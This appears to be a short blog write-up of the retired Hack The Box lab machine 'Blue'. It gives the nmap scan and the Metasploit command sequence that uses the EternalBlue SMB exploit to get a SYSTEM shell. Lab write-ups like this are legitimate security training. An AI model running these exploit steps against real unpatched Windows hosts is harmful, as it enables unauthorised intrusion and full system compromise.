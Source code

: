 ```yaml
---
layout: post
title: HacktheBox - Blue
toc: true
subtitle: Retired Machine
comments: false
---
```


## Blue ![propic](/pictures/blue/blue.png)

Start off with a network scan:
```
nmap -sV -sC -Pn -oA nmap/blue 10.10.10.68
```
![nmap](/pictures/blue/nmap.png)

There is an open port 445 (smb) from the default nmap script. It looks like it is running Windows 7 Professional 7601. A quick google search shows that it is vulnerable to EternalBlue.

![msfconsole](/pictures/blue/msfconsole.png)

I open up metasploit and search for keywords: smb eternalblue. I'll be using the first exploit(0).
```
msfconsole
search smb eternalblue
use 0
show options
set RHOSTS 10.10.*
set LHOST 10.10.*
exploit
shell
whoami (nt authority\system)
```
With a metasploit shell under system, I can capture both the user and root flags as shown below. Easy box!

![user](/pictures/blue/user.png)
![root](/pictures/blue/root.png)
